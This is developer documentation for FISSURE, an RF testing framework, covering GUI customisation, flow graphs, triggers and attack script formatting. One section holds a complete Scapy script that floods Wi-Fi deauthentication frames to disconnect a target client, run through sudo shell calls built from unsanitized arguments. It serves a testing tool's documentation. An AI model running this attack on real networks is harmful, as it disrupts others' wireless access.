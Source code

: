 ===========
Development 
===========

Adding Custom Options
=====================

**Options Dialog**

Bring up the options dialog in Qt Designer using the `designer` command and then open the ``FISSURE/UI/options.ui`` file. Click the arrows for the stacked widget (top right) to locate the table where the custom option will be inserted. Double-click on the table and add a new row with the name of the variable. Set the font size to match the other rows with the "Properties<<" button.

.. image:: /pages/Images/options.png

**default.yaml**

Open ``FISSURE/YAML/User Configs/default.yaml`` and insert the variable name and value (fft_size: 4096) for the new option.

**Accessing Stored Values**

Access the variables throughout the FISSURE code from the backend or other local settings locations such as: `dashboard.backend.settings['fft_size']` or `self.settings['fft_size']`.

Built With
==========

The following software tools are used to edit FISSURE.

**Read the Docs**

To regenerate the offline HTML RTD documentation:

.. code-block:: console

   $ cd ~/FISSURE/docs/RTD
   $ make clean && make html

**Git**

To add a new git submodule for repositories like GNU Radio out-of-tree modules:

.. code-block:: console

   $ git submodule add -b maint-3.8 https://github.com/someone/gr-something.git ./Custom_Blocks/maint-3.8/gr-something

To submit changes for FISSURE, clone the git repository with the SSH address to avoid errors when doing a push later on. Generate an SSH key and add it to your GitHub access settings.

**Qt Designer**

Python2 branch:

.. code-block:: console

   $ sudo apt-get install python-qt4 qt4-designer

Python3 branches:

.. code-block:: console

   $ sudo apt-get install -y build-essential qtcreator qt5-default

To launch: 

.. code-block:: console

   $ designer

**Grip**

Python2 branch:

.. code-block:: console

   $ sudo python2 -m pip install grip

Python3 branches:

.. code-block:: console

   $ sudo python3 -m pip install grip

To convert markdown to html (requires Internet connection): 

.. code-block:: console

   $ grip README.md --export README.html
   
Attack Flow Graphs
==================

**Flow Graph Configuration**

A new Python file is generated each time a .grc file is executed in GNU Radio Companion. The format of this auto-generated Python file is used by FISSURE to perform actions like: displaying variable names, starting attacks, changing values for a running flow graph, etc. Editing the Python file may cause FISSURE to not function properly.

*GUI vs. No GUI*

Flow graphs are called differently depending on if there is a GUI or not. Flow graphs configured to "No GUI" mode in the "Options" block will be loaded as a Python module prior to runtime and then modify the default variables. The standard start(), wait(), and stop() commands are applied in this case.

Flow graphs with GUIs have their Python files called directly and behave similarly to inspection flow graphs (See *Help>>Inspection Flow Graphs*). Variables can be changed from the GNU Radio GUI in the form of GUI widgets or as command line arguments from parameter blocks. 

*Options Block (No GUI)*

Within the "Options" block:

- "ID" must match the file name
- "Generate Options" must be set to "No GUI"

*Special Variables*

The Dashboard populates certain flow graphs variable names like "ip_address" and "serial" to match the values in the Attack hardware button. These variables must be named correctly in the flow graph to be populated automatically and handled as intended. Refer to other attack flow graphs as examples for how these variables should be utilized.

*Numerical Strings*

To help specify that a string variable containing only numerical values is indeed a string and should not to be interpreted as a float, a new variable named "string_variables" can be added to the flow graph. Its value must be a list with the names of the variables to be considered as exceptions: ["variable_name"]

For example:

.. image:: /pages/Images/string_variables.png

**Uploading Attack Flow Graph**

Attack flow graphs can be added to FISSURE within the *Library>Add* tab by selecting a protocol and choosing "Attack". Attacks will be visible within the Attack tree if the "Attack Template Name" is entered properly.

Attack Python Scripts
=====================

**Creating Python Scripts**

Non-GNU Radio attacks can be added to the FISSURE library by uploading specially configured Python (.py) files. A function is needed within the Python script to identify which variables can be modified in the FISSURE Dashboard (`getArguments()`). Those variables are used by the system as command line arguments during execution of the script. All FISSURE branches accept both Python2 and Python3 attack scripts.

FISSURE will parse a variable named "run_with_sudo" set to True or False and set the "Run with sudo" checkbox upon loading the attack in the Single-Stage Attack tab. For multi-stage attacks, this variable is listed in the generated tables and its value is used to run the script with or without sudo. If no variable is found, then Python scripts will rely on the checkbox for single-stage attacks and be run with sudo for multi-stage attacks.

Variables with filepath in their name will automatically generate a file navigation button for tables inside FISSURE. If the filepath contains "/FISSURE/", the string will be split and appended to the user's location for FISSURE. This is to make configuring an attack easier by accounting for the current username in filepaths.

*Scapy Example*

The following example uses Scapy to send multiple deauthentication frames from a wireless interface. Use the code as a reference for creating future Python scripts. 

.. code-block:: python

    from scapy.all import Dot11,Dot11Deauth,RadioTap,sendp
    import os, sys

    #################################################
    ############ Default FISSURE Header ############
    #################################################
    def getArguments():
        client = '00:11:22:33:44:55'        # Target MAC address
        bssid = 'AA:BB:CC:11:22:33'         # Access Point MAC address  
        iface = 'wlan0'	                    # Wireless interface name 
        channel = 1                         # Wireless channel
        interval = 0.01                     # Scapy interval
        arg_names = ['client','bssid','iface','channel','interval']
        arg_values = [client, bssid, iface, channel, interval]

        return (arg_names,arg_values)


    if __name__ == "__main__":

        # Default Values
        client = '00:11:22:33:44:55'        # Target MAC address
        bssid = 'AA:BB:CC:11:22:33'         # Access Point MAC address  
        iface = 'wlan0'                     # Wireless interface name 
        channel = '1'                       # Wireless channel
        interval = '0.01'                   # Scapy interval

        # Accept Command Line Arguments
        try:
            client = sys.argv[1]
            bssid = sys.argv[2]
            iface = sys.argv[3]
            channel = sys.argv[4]
            interval = sys.argv[5]
        except:
            pass

    #################################################
    
        # Create Frame
        packet = RadioTap()/Dot11(type=0, subtype=12, addr1=client, addr2=bssid, addr3=bssid)/Dot11Deauth(reason=7)

        # Set Monitor Mode and Channel
        os.system("sudo ifconfig " + iface + " down") 
        os.system("sudo iwconfig " + iface + " mode monitor") 
        os.system("sudo ifconfig " + iface + " up") 
        os.system("sudo iwconfig " + iface + " channel " + channel) 
	
        # Send Frame  
        sendp(packet, iface=iface, inter=float(interval), loop=1)

**Uploading Attack Files**

Python files can be uploaded to FISSURE within the *Library>>Add* tab by choosing a protocol and selecting "Attack". The file type must be set to "Python2 Script" or "Python3 Script" and the file must have a valid .py extension. Attacks added to the library and named with a proper "Attack Template Name" will immediately show up in the Attack tree widget.
   
Inspection Flow Graphs
======================

Inspection flow graphs can be added to FISSURE to perform frequently used analysis on live streams from SDRs or directly on prerecorded data files. Flow graph Python files (.py) are called directly with Python2/3 and use the GNU Radio "parameter" block as arguments to the Python call. This enables variables found in blocks that do not utilize callbacks (like IP address or serial number) to be changed prior to runtime. The following are instructions for creating a new inspection flow graph within the *IQ Data>>Inspection* tab.

.. image:: /pages/Images/inspection1.png

**Location**

Inspection flow graphs must be placed in the ``/FISSURE/Flow Graph Library/maint-3.10/Inspection Flow Graphs/`` or ``/FISSURE/Flow Graph Library/maint-3.10/Inspection Flow Graphs/File/`` directories. Refer to other inspection flow graphs as examples when creating new flow graphs. 

**library.yaml**

The names of inspection flow graphs are assigned to Python files within the *library.yaml* file. Assign names under the applicable hardware type or under "File" if the new flow graph will be used on IQ files. 

.. code-block:: console

    Inspection Flow Graphs:
         802.11x Adapter:
         - None
         Computer:
         - None
         File:
         - instantaneous_frequency.py
         - signal_envelope.py
         - waterfall.py
         HackRF:
         - instantaneous_frequency_hackrf.py
         - signal_envelope_hackrf.py
         - time_sink_hackrf.py
         - time_sink_1_10_100_hackrf.py
         - waterfall_hackrf.py

**GNU Radio**

The following are helpful tips for configuring the GNU Radio flow graph:

- The "Options" block ID must match (without the extension) what is entered in the *library.yaml* file
- Keep the parameter blocks as a string type and apply conversions within other blocks
- Add "QT GUI Chooser" blocks for variables that will be changed during runtime such as frequency and sample rate. Fill out the GUI Hints to make it look nice.
- Follow examples of other flow graphs on how to configure device/IP addresses, serial numbers, and similar arguments for SDR blocks. This will allow FISSURE-specific features like the IQ hardware button to pass information into the flow graph properly.
- Parameter blocks will replace '_' with '-' when using variables names as command line arguments for the flow graph Python call (FISSURE will handle this)
- Enter filepath and sample rate as "filepath" and "sample_rate" in GNU Radio variable names

**Dashboard**

Double-click/load an IQ file in the IQ Data tab Data Viewer and enter sample rate and frequency information prior to loading a file-based inspection flow graph. These values will automatically copy over to the table if available.

Modifying Dashboard
===================

This guide will provide examples on how to add GUI elements to the FISSURE Dashboard and interact with those elements within the Dashboard.py code.

QtDesigner
----------

Launch QtDesigner with the `designer` command and open the ``./UI/dashboard.ui`` file. Menu items are stored in the ``./UI/FissureDashboard.ui`` file and other supporting files can also be found in the same folder.

.. image:: /pages/Images/qtdesigner.png

**Creating New Widgets**

Frequently used widgets:

- Push Button
- Text Edit
- Combo Box
- Check Box
- Label
- Frame
- Spin Box
- Double Spin Box
- Horizontal Slider
- Table Widget
- Tab Widget
- Stacked Widget
- Tree Widget
- Group Box
- Progress Bar
- List Widget

Drag widgets onto the Dashboard and modify their property values in the Property Editor. 

It is suggested to use an objectName consistent with the FINDINGS naming convention: \_widget-type\_tab-location\_description_ (e.g. pushButton\_automation\_manual, textEdit\_iq\_timeslot\_input)

Menu items can be added by clicking "Type Here" in any of the menus/submenus and entering text. Separators can be added by clicking "Add Separator" and then dragged or by right clicking and clicking "Insert Separator". Submenus can be added by clicking the right side of any menu item.

**Styling Widgets**

Many labels and frames use stylesheets. Stylesheets can be applied to all widgets sharing the same type or only to specific widgets. Each widget has their own unique properties that can be customized. If possible, avoid setting the stylesheets in the *dashboard.py* code to better manage and organize the stylesheets.

Tab Widget Example 1:

.. code-block:: console

    #tabWidget > QTabBar::tab {
        width: 132px; 
        height:27px;
        margin-top: 0px;
    }

    #tabWidget > QTabBar::tab:!selected {
        margin-top: 6px;
        height: 21px;
        width: 132px; 
    }

    QTabBar::tab:disabled {
        background-color: qlineargradient(spread:pad, x1:0, y1:0, x2:0, y2:1, stop:0 #eeeeee, stop:0.12 #888888, stop:0.3 #666666,   stop:0.85 #444444, stop:1 #444444);
        border: 1px solid #444444;
        color: rgb(150, 150, 150);
    }

    QTabWidget::pane { 
        border: 1px solid #17365D;
    }

    QTabBar::tab {
        qproperty-alignment: AlignCenter;
        border-top-left-radius: 15px;
        border-top-right-radius: 15px;
        background-color: qlineargradient(spread:pad, x1:0, y1:0, x2:0, y2:1, stop:0 #e7eaee, stop:0.12 #455e7d, stop:0.3 #2e4a6d,   stop:0.85 #17365D, stop:1 #17365D);
        border: 1px solid #17365D;
        color:rgb(0, 220, 0);
        font: bold 10pt "Ubuntu";
        margin-right:1px;
        width: 132px;
        height:22px;
        margin-top: 3px;
    }

    QTabBar::tab:!selected {
        margin-top: 7px;
        height: 18px;
        color: rgb(255, 255, 255);
    }

Tab Widget Example 2:

.. code-block:: console

    #tabWidget_3 > QTabBar::tab{width:110px}

Label Example 1:

.. code-block:: console

    QLabel#label_294 {
        qproperty-alignment: AlignCenter;
        border: 1px solid #17365D;
        border-top-left-radius: 15px;
        border-top-right-radius: 15px;
        background-color: qlineargradient(spread:pad, x1:0, y1:0, x2:0, y2:1, stop:0 #e7eaee, stop:0.12 #455e7d, stop:0.3 #2e4a6d,   stop:0.85 #17365D, stop:1 #17365D);
        padding: 0px 0px;
        color: rgb(255, 255, 255);
        max-height: 20px;
        font: bold 10pt "Ubuntu";
    }

Frame Example 1:

.. code-block:: console

    QFrame#frame_9 {
        background-color: rgb(251, 251, 251);
        border: 1px solid #17365D;
        border-bottom-left-radius: 15px;
        border-bottom-right-radius: 15px;
    }

Push Button Example 1:

.. code-block:: console

    #pushButton_top_tsi{
        color: rgb(0, 0, 0,);
        padding: 45px 0px 0px 92px;
        background-color: qradialgradient(cx: 0.3, cy: -0.4, fx: 0.3, fy: -0.4, radius: 1.35, stop: 0 rgba(255, 255, 255,50), stop: 1 rgba(100, 100, 100,50));
        border-style: outset;
        border-width: 2px;
        border-radius: 10px;
        /*border-color: #152947;*/
        border-color:  #17365D;
    }

    #pushButton_top_tsi:hover{
        background-color: qradialgradient(cx: 0.3, cy: -0.4, fx: 0.3, fy: -0.4, radius: 1.35, stop: 0 rgba(255, 255, 255,50), stop: 1 rgba(170, 170, 170,50));
    }

    #pushButton_top_tsi:pressed{
        background-color: qradialgradient(cx: 0.3, cy: -0.4, fx: 0.3, fy: -0.4, radius: 1.35, stop: 0 rgba(255, 255, 255,50), stop: 1 rgba(100, 100, 100,50));	
        padding: 47px -2px 0px 92px;
    }

dashboard.py
------------

Any widget in the Dashboard can be referenced with `self.objectName`.

The following are frequently called public functions for the widgets in FISSURE:

.. code-block:: console
    
    # Push Button
    self.pushButton_name.text()
    self.pushButton_name.setText("Text")
    self.pushButton_name.setEnabled(False)
    self.pushButton_name.setVisible(True)

    # Text Edit
    str(self.textEdit_name.toPlainText())
    self.textEdit_name.setPlainText("Text")

    # Combo Box
    str(self.comboBox_name.currentText())
    self.comboBox_name.clear()
    self.comboBox_name.addItem(get_dissector)
    self.comboBox_name.addItems(get_packet_types)
    self.comboBox_name.setCurrentIndex(0)
    self.comboBox_name.currentIndex(0)

    # Check Box
    self.checkBox_name.isChecked()
    self.checkBox_name.setChecked(False)

    # Label
    self.label_name.text()
    self.label_name.setText(get_samples)
    self.label_name.setPixmap(QtGui.QPixmap(os.path.dirname(os.path.realpath(__file__)) + "/docs/Icons/USRP_X310.png")) 

    # Frame
    self.frame_name.pos()
    self.frame_name.geometry()

    # Spin Box/Double Spin Box
    self.spinBox_name.value()
    self.spinBox_name.setValue(10)
    self.spinBox_name.setMaximum(35)
    self.spinBox_name.setMinimum(0)

    # Horizontal/Vertical Slider
    self.horizontalSlider_name.setMinimum(int(win_min))
    self.horizontalSlider_name.setMaximum(int(win_max))
    self.horizontalSlider_name.setValue(int(win_min)) 
    self.horizontalSlider_name.setSliderPosition(2)

    # Table Widget
    self.tableWidget_name.rowCount()
    self.tableWidget_name.columnCount()
    self.tableWidget_name.setColumnCount(1)
    self.tableWidget_name.setRowCount(0)
    self.tableWidget_name.removeRow(1)
    self.tableWidget_name.removeColumn(5)
    self.tableWidget_name.insertRow(0)
    self.tableWidget_name.currentRow() 
    self.tableWidget_name.clearContents()
    self.tableWidget_name.resizeRowsToContents()                   
    self.tableWidget_name.resizeColumnsToContents()    
    self.tableWidget_name.setColumnWidth(4,130)
    self.tableWidget_name.horizontalHeader().setResizeMode(2,QtGui.QHeaderView.Stretch)  
    self.tableWidget_name.horizontalHeader().setStretchLastSection(True)                
    self.tableWidget_name.verticalHeaderItem(0).text()
    self.tableWidget_name.setHorizontalHeaderItem(1,QtGui.QTableWidgetItem(""))
    self.tableWidget_name.item(0,5).text()
    self.tableWidget_name.setCurrentCell(self.tableWidget_name.currentRow()-1,0)
    table_item = self.tableWidget_name.takeItem(self.tableWidget_name.currentRow()-1,0)
    table_item = QtGui.QTableWidgetItem(str(657))  # from PyQt4 import QtCore, QtGui, uic
    table_item.setTextAlignment(QtCore.Qt.AlignCenter)
    table_item.setFlags(table_item.flags() & ~QtCore.Qt.ItemIsEditable)
    self.tableWidget_name.setItem(0,0,table_item) 
    self.tableWidget_name.item(row,4).setFlags(self.tableWidget_name.item(row,4).flags() ^ QtCore.Qt.ItemIsEnabled)
    self.tableWidget_name.cellWidget(0,4).currentText()
    self.tableWidget_name.cellWidget(1,0).isChecked()
    self.tableWidget_name.cellWidget(row,0).isEnabled()
    self.tableWidget_name.cellWidget(row,0).setCurrentIndex(1)
    self.tableWidget_name.setCellWidget(0,0,new_button)                

    new_checkbox = QtGui.QCheckBox("",self)
    new_checkbox.setStyleSheet("margin-left:17%")
    self.tableWidget_name.setCellWidget(n,0,new_checkbox)

    new_pushbutton = QtGui.QPushButton(self.table_list[n])
    new_pushbutton.setText("Guess")
    new_pushbutton.setFixedSize(64,23)
    self.tableWidget_name.setCellWidget(self.tableWidget_name.rowCount()-1,1,new_pushbutton)
    new_pushbutton.clicked.connect(lambda: self._slotGuessInterfaceTableClicked(get_value))

    # Tab Widget
    self.tabWidget_name.currentIndex()
    self.tabWidget_name.setCurrentIndex(4)
    self.tabWidget_name.tabText(self.tabWidget_name.currentIndex())
    self.tabWidget_name.setTabText(0,"Detector")
    self.tabWidget_name.setTabToolTip(1,"Target Signal Identification")
    self.tabWidget_name.setTabEnabled(2,False)
    self.tabWidget_name.count()
    self.tabWidget_name.removeTab(1)
    new_tab = QtGui.QWidget()       
    vBoxlayout  = QtGui.QVBoxLayout()
    vBoxlayout.addWidget(self.table_name)
    new_tab.setLayout(vBoxlayout)   
    self.tabWidget_name.addTab(new_tab,"text")  
    get_table = self.tabWidget_name.children()[0].widget(n).children()[1]  # TabWidget>>StackedLayout>>Tab>>Table

    # Stacked Widget
    self.stackedWidget_name.currentIndex()
    self.stackedWidget_name.setCurrentIndex(1)
    self.stackedWidget_name.count()

    # Tree Widget
    self.treeWidget_name.currentItem().text(0) 
    self.treeWidget_name.setCurrentItem(self.treeWidget_name.topLevelItem(0))
    new_item = QtGui.QTreeWidgetItem()
    new_item.setText(0,"text")
    new_item.setDisabled(True)
    self.treeWidget_name.addTopLevelItem(new_item)
    self.treeWidget_name.clear()
    self.treeWidget_name.setHeaderLabel("text")
    self.treeWidget_name.invisibleRootItem()  
    self.treeWidget_name.collapseAll()   
    self.treeWidget_name.expandAll() 
    self.treeWidget_name.findItems("text",QtCore.Qt.MatchExactly|QtCore.Qt.MatchRecursive,0)[0].setDisabled(False)
    self.treeWidget_name.findItems("text",QtCore.Qt.MatchExactly|QtCore.Qt.MatchRecursive,0)[0].setHidden(False)
    iterator = QtGui.QTreeWidgetItemIterator(self.treeWidget_name)
    while iterator.value():
        item = iterator.value()
        if item.text(0) in self.pd_library['Attack Categories']:
            item.setFont(0,QtGui.QFont("Times", 11, QtGui.QFont.Bold))                    
        iterator+=1      

    # Group Box    
    self.groupBox_name.setVisible(False)
    self.groupBox_name.setEnabled(False)

    # Progress Bar
    self.progressBar_name.hide() 
    self.progressBar_name.show()      
    self.progressBar_name.setMaximum(100)
    self.progressBar_name.setValue(10)

    # List Widget
    self.listWidget_name.setCurrentRow(0)
    get_index = self.listWidget_name.currentRow()
    self.listWidget_name.count()
    get_text = str(self.listWidget_name.item(row).text())
    self.listWidget_name.addItem(preset_name)
    self.listWidget_name.addItems(modulation_list)
    for item in self.listWidget_name.selectedItems()
    self.listWidget_name.takeItem(self.listWidget_name.row(item))
    self.listWidget_name.clear()

The `_connectSlots()` function in *dashboard.py* is used to assign functions to widget actions. Group the signal/slot assignments for widgets by their type and the tab they reside in.

The following are examples to link new widgets to new functions in the *MainWindow* class.

.. code-block:: console

    # Push Buttons
    self.pushButton_tsi_clear_SOI_list.clicked.connect(self._slotTSI_ClearSOI_ListClicked)
    self.pushButton_pd_dissectors_construct.clicked.connect(lambda: self._slotPD_DissectorsConstructClicked(preview = False))

    # Check Boxes 
    self.checkBox_automation_receive_only.clicked.connect(self._slotAutomationReceiveOnlyClicked)

    # Combo Boxes
    self.comboBox_tsi_detector.currentIndexChanged.connect(self._slotTSI_DetectorChanged)

    # Radio Buttons
    self.radioButton_library_search_binary.clicked.connect(self._slotLibrarySearchBinaryClicked)

    # Double Spin Boxes
    self.doubleSpinBox_pd_bit_slicing_window_size.valueChanged.connect(self._slotPD_BitSlicingSpinboxWindowChanged)

    # Horizontal Sliders
    self.horizontalSlider_pd_bit_slicing_preamble_stats.valueChanged.connect(self._slotPD_BitSlicingSliderWindowChanged)

    # Table Widgets   
    self.tableWidget_automation_scan_options.cellChanged.connect(self._slotAutomationLockSearchBandClicked) 
    self.tableWidget_pd_bit_slicing_lengths.itemSelectionChanged.connect(self._slotPD_BitSlicingLengthsChanged)
    self.tableWidget_pd_bit_slicing_candidate_preambles.cellDoubleClicked.connect(self._slotPD_BitSlicingCandidateDoubleClicked)
    self.tableWidget_pd_bit_slicing_packets.horizontalHeader().sectionClicked.connect(self._slotPD_BitSlicingColumnClicked)  

    # Labels
    self.label_iq_end.mousePressEvent = self._slotIQ_EndLabelClicked

    # List Widgets
    self.listWidget_library_gallery.currentItemChanged.connect(self._slotLibraryGalleryImageChanged)
    self.listWidget_library_browse_demod_fgs.itemClicked.connect(self._slotLibraryBrowseDemodFGsClicked)
    self.listWidget_iq_inspection_flow_graphs.itemDoubleClicked.connect(self._slotIQ_InspectionFlowGraphClicked)

    # Text Edits
    self.textEdit_iq_start.textChanged.connect(self._slotIQ_StartChanged)

    # Tree Widgets
    self.treeWidget_attack_attacks.itemDoubleClicked.connect(self._slotAttackTemplatesDoubleClicked)

    # Menu Items
    self.actionAll_Options.triggered.connect(self._slotMenuOptionsClicked)

    # Tab Widgets
    self.tabWidget_tsi.currentChanged.connect(self._slotTSI_TabChanged)

    # List Widget
    self.listWidget_options.currentItemChanged.connect(self._slotOptionsListWidgetChanged)
    self.listWidget_library_browse_attacks3.itemClicked.connect(self._slotLibraryBrowseAttacksClicked)
    self.listWidget_pd_flow_graphs_recommended_fgs.itemDoubleClicked.connect(self._slotPD_DemodulationLoadSelectedClicked)  

    # Custom Signals 
    self.connect(self, self.signal_PD_Offline, self._slotPD_Offline)

To avoid threading issues in FISSURE's event listener, custom signals can be issued from within the thread to slots located in the Dashboard.

.. code-block:: console

    self.signal_PD_Offline = QtCore.SIGNAL("pdOffline")               # Defined in Dashboard
    self.connect(self, self.signal_PD_Offline, self._slotPD_Offline)  # Defined in Dashboard
    self.emit(self.signal_PD_Offline)                                 # Issued in thread

Connected slots/functions are appended to the class.

.. code-block:: console

    def _slotIQ_ConvertClicked(self):
        """ Converts the original file to a new data type.
        """
        # Get Values
        print "text"

**Generic Input Dialogs**

Text Edit:

.. code-block:: console

    text, ok = QtGui.QInputDialog.getText(self, 'Rename', 'Enter new name:',QtGui.QLineEdit.Normal,get_file)
    if ok:
        print text


ComboBox:

.. code-block:: console

    # Open the Band Chooser Dialog
    new_label_text = "Choose 4G Band"
    new_items = ['2', '3', '4', '5', '7', '12', '13', '14', '17', '20', '25', '26', '29', '30', '40', '41', '46', '48', '66', '71']
    chooser_dlg = MiscChooser(parent=self, label_text=new_label_text, chooser_items=new_items)
    chooser_dlg.show()
    chooser_dlg.exec_() 

    # Run the Script
    get_value = chooser_dlg.return_value
    if len(get_value) > 0:   
        print get_value

Folder:

.. code-block:: console

    # Choose Folder
    get_dir = str(QtGui.QFileDialog.getExistingDirectory(self, "Select Directory"))
    if len(get_dir) > 0:            
        print get_dir

Open File:

.. code-block:: console

    # Choose File
    fname = QtGui.QFileDialog.getOpenFileName(None,"Select IQ File...", default_directory, filter="All Files (*)")
    if fname != "":
        print fname

Save File:

.. code-block:: console

    # Choose File
    fname = QtGui.QFileDialog.getSaveFileName(None,"Select File...", default_directory, filter="All Files (*)")
    if fname != "":
        print fname

Error Message:

.. code-block:: console

    self.errorMessage("Flow Graph was not Found in PD Flow Graph Library!")

Message Box:

.. code-block:: console

    msgBox = MyMessageBox(my_text = " Choose an IQ file.", height = 75, width = 140)
    msgBox.exec_() 


Creating Triggers
=================

There are four major steps in creating a new trigger for use in single-stage attacks, multi-stage attacks, archive replay, and autorun playlists: building the Python script, adding widgets to .ui file in QtDesigner, updating the Triggers Dialog slots, and adding information to the FISSURE library.yaml file.

**Scripting**

Triggers consist of a Python3 file that accepts input arguments provided by the FISSURE Dashboard and loops until a condition is satisfied. The trigger files are stored in the ``./Flow Graph Library/maint-3.10/Triggers/`` directory. Trigger scripts can call secondary programs like GNU Radio flow graphs and monitor output such as text printed to stdout. A value of 0 is returned if the trigger is successful and -1 if an error was caught. Two examples of trigger scripts are provided below. The first waits until a specific time and the second reads text produced from a flow graph.

.. code-block:: python

    # Choose File
    import time
    from dateutil import parser
    import sys

    def main():
        # Accept Command Line Arguments
        try:
            trigger_time = sys.argv[1]
            trigger_time = parser.parse(trigger_time).timestamp()
        except:
            print("Error accepting trigger time argument. Exiting trigger.")
            return -1

        while time.time() < trigger_time:
            time.sleep(.1)
            
        return 0

    if __name__ == "__main__":
        main()

.. code-block:: python

    # Choose Fileimport sys
    import time
    import subprocess
    import os

    def main():
        # Accept Command Line Arguments
        try:
            hardware = str(sys.argv[1])
            matching_text = str(sys.argv[2])
            #matching_text = "Bits: 01100000100111110000000011111111"
        except:
            print("Error accepting X10 demod arguments. Exiting trigger.")
            return -1

        # Choose the Flow Graph
        if "USRP B2x0" in hardware:
            filepath = os.path.dirname(os.path.realpath(__file__)) + "/X10_OOK_USRPB2x0_Demod.py"
        else:
            return -1
            
        # Start the Flow Graph
        process = subprocess.Popen(["python3", filepath], stdout=subprocess.PIPE, universal_newlines=True)
    
        # Iterate over stdout to print the output in real-time
        try:
            for line in iter(process.stdout.readline, ''):
                print(line, end='')  # Print the line without adding additional newline

                # Check if the match_text is present in the output
                if matching_text in line:
                    print("Match found in stdout. Exiting both programs.")
                    process.terminate()
                    return 0
            process.stdout.close()
            process.wait()
        finally:
            pass
        
    if __name__ == "__main__":
        main()

**QtDesigner**

To add a new trigger to the Trigger Options window, first open the triggers.ui file in QtDesigner. Second, insert a new page into the stacked widget and add widgets for user input. Refer to previous pages for examples and be mindful of the start of objectNames adhering to the stylesheet formatting.

**Triggers Dialog Slots**

The TriggersDialogSlots.py file needs to be updated for a new trigger to handle initialization, populating default values, and formatting accepted parameters. Modify these functions and follow the existing triggers for examples: _slotTriggerChanged(), _slotAddClicked(). Custom slots for widgets can be created but need to be connected in TriggersDialog.py

**Library**

The library.yaml file stores the default values for triggers and the names/locations of the Python3 scripts that are executed. The following is an example entry into the Triggers dictionary in library.yaml.

.. code-block:: console

    Triggers:
        Acoustic:
            Sound Threshold:
                Default Settings:
                        Duration: '0.1'
                        Sample Rate: '44100'
                        Threshold: '0.2'
                File: sound_threshold.py
                Type: Python3 Script